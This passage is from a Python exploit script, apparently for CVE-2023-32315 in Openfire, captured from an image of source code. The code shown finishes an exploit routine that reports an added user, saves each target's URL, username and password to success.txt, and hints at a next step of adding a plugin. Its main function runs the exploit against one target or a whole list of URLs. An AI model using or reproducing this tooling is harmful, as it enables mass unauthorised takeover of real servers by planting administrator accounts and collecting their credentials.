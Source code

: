             if hhh.status_code == 200:
                print(f"User added successfully: url: {target} username: {username} password: {password}")
                with open("success.txt", "a+") as f:
                    f.write(f"url: {target} username: {username} password: {password}\n")
            else:
                print("Failed to add user")
            # setup 3: add plugin
    
        except Exception as e:
            print(f"Error occurred while retrieving cookies: {e}")
    
    def main():
        print(artwork)
    
        ## parse argument
        parser = argparse.ArgumentParser()
        parser.add_argument('-t', '--target', help='The URL of the target, eg: http://127.0.0.1:9090', default=False)
        parser.add_argument("-l", "--list", action="store", help="List of target url saperated with new line", default=False)
        args = parser.parse_args()
    
        if args.target is not False:
            exploit(args.target) 
    	
        elif args.list is not False:
            with open(args.list) as targets:
                for target in targets:
                    target = target.rstrip()
                    if target == "":
                        continue
                    if "http" not in target:
                        target = "http://" + target
                    exploit(target) 
        else:
            parser.print_help()
            parser.exit()
    
    # def main():
    #     parser = argparse.ArgumentParser(description="CVE-2023-32315")
    #     parser.add_argument("-u", help="Target URL")
    #     parser.add_argument("-l", help="File containing URLs")
    #     parser.add_argument("-t", type=int, default=10, help="Number of threads")
    